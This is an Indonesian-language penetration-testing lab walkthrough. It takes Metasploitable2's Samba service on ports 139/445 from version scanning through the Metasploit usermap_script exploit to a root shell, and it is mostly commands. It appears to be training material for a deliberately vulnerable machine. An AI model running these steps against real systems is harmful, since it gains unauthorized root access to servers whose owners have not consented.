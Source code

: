 # Exploit port 139 dan 445 (SMB)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Gunakan modul `auxiliary/scanner/smb/smb_version` untuk mengetahui versi samba yang digunakan di server
```sh
use auxiliary/scanner/smb/smb_version
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Jalankan modul tersebut. Disini didapat informasi bahwa file server yang digunakan adalah samba versi `3.0.20`
```sh
exploit
```

- Buka terminal baru gunakan tool searchsploit untuk mencari kelemahan samba versi `3.0.20`
```sh
searchsploit samba
```

- Buka kembali tool metasploit dan lakukan pencarian modul exploit untuk samba
```sh
search samba
```

- Disini kita gunakan modul `exploit/multi/samba/usermap_script` yang ada di list nomor 8 dari hasil pencarian
```sh
use <nomor_modul>
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```


- Jalankan modul tersebut. Setelah dijalankan, exploit berhasil mengakses masuk ke dalam server. Jika diketik perintah whoami maka kita berhasil masuk sebagai user root
```sh
exploit
```